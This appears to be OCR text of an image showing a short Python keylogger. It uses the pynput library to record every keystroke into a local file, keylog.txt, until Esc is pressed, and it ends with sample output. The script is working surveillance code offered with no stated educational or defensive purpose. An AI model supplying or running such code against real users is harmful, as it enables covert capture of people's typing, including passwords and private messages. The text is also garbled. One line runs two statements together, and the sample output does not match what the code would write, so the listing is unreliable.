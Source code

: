 Python code: 
   
 from pynput import keyboard 
 
# Function to handle key press events 
def on_press(key): 
    with open("keylog.txt", "a") as log_file: 
        try: 
            log_file.write(key.char) 
        except AttributeError: 
            log_file.write(f' {key} ') 
 
# Function to handle key release events 
def on_release(key): 
    if key == keyboard.Key.esc: 
        return False 
# Start the keyboard listener
listener = keyboard.Listener(on_press=on_press, on_release=on_release) listener.start()
listener.join()
Output:
H e l l o W o r l d Key.space Key.esc

